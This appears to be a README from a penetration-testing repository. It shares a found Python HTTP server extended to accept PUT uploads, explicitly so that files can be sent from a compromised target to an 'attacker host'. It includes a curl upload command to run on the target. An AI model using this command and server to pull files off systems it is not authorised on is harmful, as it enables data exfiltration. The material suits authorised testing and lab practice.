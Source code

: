 Note: I did not write code, I just found it and saved it.

Python modules ```http.server``` and ```uploadserver``` appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.

```bash
Linux: curl --upload-file <filename> http://<ip>:8000/
```

```python
#!/usr/bin/python
import http.server
import os
import logging

try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """
    SimpleHTTPServer with added bonus of:

    - handle PUT requests
    - log headers in GET request
    """
    def do_GET(self):
        server.SimpleHTTPRequestHandler.do_GET(self)
        logging.warning(self.headers)

    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    server.test(HandlerClass=HTTPRequestHandler)
```
